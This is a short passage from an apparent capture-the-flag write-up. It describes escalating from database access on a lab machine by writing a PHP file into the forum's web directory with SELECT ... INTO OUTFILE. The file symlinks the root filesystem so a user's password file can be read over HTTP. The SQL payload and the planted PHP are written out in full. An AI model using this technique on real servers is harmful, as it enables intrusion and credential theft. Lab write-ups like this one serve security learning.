 # EXPLOIT 5: INFILTRATING ROOT

Returning to the point where we gained root access to the database, there's another method we can use to exploit it. Since the webserver runs under *Apache*, we can leverage this to perform a privilege escalation.

## Apache suEXEC

First, it's important to know that Apache includes a feature called `suEXEC`, which allows users to run CGI and SSI programs under different user IDs than the one used by the web server. Typically, when a CGI or SSI program is executed, it runs with the same user permissions as the web server.

We can take advantage of this feature by developing and executing a custom CGI script. To do this, we can create a PHP script similar to the one in [writeup1](../writeup1.md) and place it in */var/www/forum/templates_c/suexec.php*. 

```SQL
SELECT "<?php system('ln -sf / root_filesystem'); symlink('/', 'root_filesystem'); ?>" into outfile "/var/www/forum/templates_c/suexec.php"
```

The script will create a symbolic link to **"/"** with the name *root_filesystem*, allowing us to access the root filesystem. Next, we need to navigate to the page where the file is located in order to run the script.

```
https://192.168.144.3/forum/templates_c/suexec.php
```

Finally, we can access the symbolic link and navigate through the directories to locate the password for *lmezard* in `/home/LOOKATME/password`.

```
https://192.168.144.3/forum/templates_c/root_filesystem/
```

From there, we can proceed to the section where we begin exploiting *lmezard*.
